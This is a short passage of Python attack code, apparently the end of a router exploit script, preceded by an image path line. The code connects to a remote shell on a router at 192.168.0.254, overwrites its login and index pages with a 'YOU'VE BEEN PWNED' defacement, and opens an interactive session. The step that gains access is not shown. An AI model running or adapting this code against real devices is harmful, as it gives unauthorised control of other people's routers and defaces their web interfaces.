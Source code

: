```python
    s.close()
    time.sleep(8)
    print("Enjoy your shell ~ ") 
    p =  remote("192.168.0.254", ATTACKPORT)
    print p.recvrepeat(0.5)
    p.sendline('echo -e "<!DOCTYPE html><head>YOU\'ve BEEN PWNED</head><body><h3>Hey there, your router is insecure. Please do yourself a favor to remember to upgrade your firmware version at least.</h3><br><br><br><br><img src=\"./index.jpg\" alt=\"GG\"></body></html>">/www/webpages/login.html')
    print p.recvrepeat(0.5)
    p.sendline('echo -e "<!DOCTYPE html><head>YOU\'ve BEEN PWNED</head><body><h3>Hey there, your router is insecure. Please do yourself a favor to remember to upgrade your firmware version at least.</h3><br><br><br><br><img src=\"./index.jpg\" alt=\"GG\"></body></html>">/www/index.html')
    p.interactive()

main()
```